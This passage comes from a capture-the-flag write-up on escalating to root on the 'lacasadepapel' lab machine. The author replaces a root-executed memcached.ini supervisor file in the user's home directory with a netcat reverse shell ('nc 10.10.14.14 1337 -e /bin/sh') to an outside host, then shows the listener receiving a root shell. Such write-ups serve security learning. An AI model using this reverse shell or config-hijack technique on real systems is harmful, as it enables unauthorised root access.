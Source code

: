 ```
drwx------    2 professo professo      4096 Jan 31 21:36 .ssh
-rw-r--r--    1 root     root            88 Jan 29 01:25 memcached.ini
-rw-r-----    1 root     nobody         434 Jan 29 01:24 memcached.js
drwxr-sr-x    9 root     professo      4096 Jan 29 01:31 node_modules
lacasadepapel [~]$
```
and ps confirms that it is running and netstat suggests it could be listening on `127.0.0.1:11211`. `sudo -l` gives us nothing as we need the professors password. but the memcache.ini file gives us something to look at:
```
lacasadepapel [~]$ cat memcached.ini 
[program:memcached]
command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
```
It looks like whatever is in the command variable is executed as a bash command as root. We cannot edit the file directly, but this is our users home directory.. so we have full permissions to delete and create a new one.

Figuring out what reverse shell might be the easiest we can see that the machine has nc installed and testing a reverse shell with the professor user we can see what we are able to get a shell as professor with the -e flag, so we should be able to translate that into the file to have it run as root.
```
lacasadepapel [~]$ rm memcached.ini
lacasadepapel [~]$ echo '[program:memcached]
command = /usr/bin/nc 10.10.14.14 1337 -e /bin/sh' > memcached.ini
```

Set up a nc listener on port 1337 and wait for the cron to run. Eventually we get a reverse shell as root.
```
root@kali: nc -nlvp 1337
Listening on [0.0.0.0] (family 2, port 1337)
Connection from 10.10.10.131 38785 received!
whoami
root
cat /root/root.txt
58[REDACTED]11
``
